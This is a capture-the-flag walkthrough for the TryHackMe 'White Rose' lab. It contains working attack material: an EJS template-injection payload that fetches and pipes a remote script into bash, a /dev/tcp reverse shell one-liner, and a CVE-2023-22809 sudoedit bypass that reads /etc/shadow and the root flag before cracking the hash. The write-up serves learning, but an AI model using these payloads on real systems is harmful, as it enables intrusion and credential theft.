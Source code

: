 ```yaml
---
layout: post
title: White Rose (TryHackMe)
date: 2025-04-19
categories: [CTF, SSTI]
tags: [Tryhackme]
---
```


### Nmap
```
nmap -p- -T4 <Target-IP> # This will scan all the 65535 port.

nmap -A -p 22,80 -T4 <Target-IP> -oN WhiteRose_Nmap_result # From the above cmd output we can run the 2 ports in Aggressive mode.
```
- Why i didn't ran the "-A" scan in the first command itself it is because scanning all 65535 ports in Aggressive mode takes more time and it is waste of time. That's the reason i ran the results of the first cmd to the second.
- If you don't feel like doing this much we can utilize a tool called rustscan this will automate the above process.

### Rustscan

```
rustcan -a <Target-IP> -- -A -oN WhiteRose_nmap_result

#Cmd Breakdown

-a will scan for all ports
-- will pass the rustscan output to the nmap
-A aggressive mode in Nmap
-oN To save the output
```


### Nmap scan Result
```
22/tcp open  ssh     syn-ack ttl 60 OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    syn-ack ttl 60 nginx 1.14.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.14.0 (Ubuntu)

```
Given creds from the challange `Olivia Cortez:olivi8`

# Enumeration

## HTTP (80)

### Dirsearch
```
dirsearch -u http://<target-IP> 
```

- Nothing Intresting

### Vhost Fuzzing

```
www                     [Status: 200, Size: 252, Words: 19, Lines: 9, Duration: 167ms]
admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 167ms]
```

### admin.cyprusbank.thm

- Login page 
- `Olivia Cortez:olivi8` Using this credentials we can login

![Admin_panel](https://c00lrabbit.github.io/assets/Images/WhiteR-Adm-panel.png){: .center-image }

## IDOR found on msg section in the URL
![IDOR In msg](https://c00lrabbit.github.io/assets/Images/IDOR-Msg.png){: .center-image }

```
Found these creds using IDOR

Gayle Bev : p~]P@5!6;rs558:q
```

Since Gayle is admin we can login as admin using these creds

## Found SSTI in `/settings` 

![ejs-vuln](https://c00lrabbit.github.io/assets/Images/ejs-vuln.png){: .center-image }
- We found ejs and found a RCE about that https://security.snyk.io/vuln/SNYK-JS-EJS-2803307

```
# SSTI Payload
name=test&password=test&settings[view%20options][outputFunctionName]=x;process.mainModule.require(%27child_process%27).execSync('curl http://10.17.X.X:8000');s
```
- We got a hit in our python server
![Python-server](https://c00lrabbit.github.io/assets/Images/python-server.png){: .center-image }

Shell.sh
```bash
bash -i >& /dev/tcp/10.17.X.X/9001 0>&1
```

payload
```
name=test&password=test&settings[view%20options][outputFunctionName]=x;process.mainModule.require(%27child_process%27).execSync('curl http://10.17.X.X:8000/shell.sh|bash');s
```
- we got a shell and user flag

# Privilege Escalation

```bash
sudo -l

(root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm

sudoedit --v
Sudo version 1.9.12p1

```

#### Sudo version 1.9.12p1 leads to a vulnerability

https://www.vicarius.io/vsociety/posts/cve-2023-22809-sudoedit-bypass-analysis

## Exploit

#### To get the root Hash
```
export EDITOR="vi -- /etc/shadow"

sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```
- After running this we can get the root hash then we can crack it through hashcat

```bash
hashcat -a 0 -m 3200 root-hash.txt rockyou.txt
```


#### To get the root flag
```
export EDITOR="vi -- /root/root.txt"

sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

- We got the root flag

## Conclusion

- WhiteRose is inspired from "Mr.Robot" Series, This box gives basic knowledege of SSTI(Server Side Template Imjection) and Priexc using Sudo.
- Most of us will ignore the sudo to check for vuln ("Including me"). This box teach us to check everything.
- Overall it is a stright forward enjoyable box which i like.

## As Heath aka TCM said "Enumeration is key to success"
